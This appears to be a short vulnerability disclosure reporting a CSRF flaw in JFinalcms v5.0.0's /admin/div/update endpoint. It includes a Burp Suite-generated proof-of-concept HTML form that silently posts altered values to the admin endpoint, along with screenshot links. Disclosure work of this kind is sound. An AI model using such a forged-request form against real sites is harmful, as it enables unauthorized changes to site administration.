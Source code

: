 Author：MengYang

target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/div/update

![图片](https://github.com/cui2shark/cms/assets/52313275/2a1d3e65-f9cf-44b3-92ff-422c47ace9a9)


create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/9a40b37f-21cd-4dae-b144-b6f62b894d93)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/div/update" method="POST">
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="name" value="娴&#139;�&#175;&#149;1" />
      <input type="hidden" name="name" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/813b01f0-d73b-4eda-b6c2-3593afb04ae2)

